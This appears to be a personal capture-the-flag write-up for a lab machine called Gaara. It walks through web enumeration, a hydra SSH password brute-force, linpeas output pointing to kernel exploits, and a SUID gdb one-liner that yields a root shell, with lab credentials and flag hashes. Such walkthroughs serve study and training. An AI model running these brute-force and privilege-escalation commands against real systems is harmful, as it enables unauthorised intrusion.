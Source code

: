 Apache/2.4.38

Apache httpd 2.4.38

Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation 

```php
searchsploit Apache 2.4.38
```

/Cryoserver -> blank
- I try httpie on the dir to see if anything else comes up, and it does:
- Taking a look again at the server, the page needed to be scrolled down, and that's why i didn't see it at first.

```php
http -v GET http://192.168.207.142/Cryoserver
```

/Temari -> looks the same as kaz
/Kazekage -> looks like the same document, but this time it's grammar is better
/iamGaara -> text desc of gaara

Looking in burp compare it shows that just a few things are added, the links to the sources[1] and:
- Appearances
- In Naruto
I find the entry finally that compare said was added: ==f1MgN9mTf9SNbzRygcU==

![[Pasted image 20240913133637.png]]

gaara:ismyname

![[Pasted image 20240913134258.png]]



The login doesn't work. This is proving to be tricky for an easy box. This did seem to prove that gaara does exist on the machine though, so not all bad.

I'll try brute-force the login. 

```php
hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

![[Pasted image 20240913135331.png]]

host: 192.168.207.142   
login: gaara   
password: iloveyou2

I logins and find the first flag in the home dir.

`a823c7c712d74707b9a10294add920f8`

Now i'll take a quick look around and then transfer ps.py and linpeas.

Linpeas output:

```php
[+] [CVE-2019-13272] PTRACE_TRACEME                                                                                              
Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
Exposure: highly probable
Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

```php
 https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                          
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
- /usr/local/games

```php
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens                                           
ptrace protection is disabled (0), so sudo tokens could be abused         gdb was found in PATH
```

SUID: /usr/bin/gdb

I look up bdg on `gtfobins` and it gives me a one liner which i try and get root.

```php
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```


![[Pasted image 20240913141503.png]]

Flag:
aa7839494994e109d2e43c6913874a26

![[Pasted image 20240913141643.png]]

---

**Completed:** _14:19 2024-09-13_


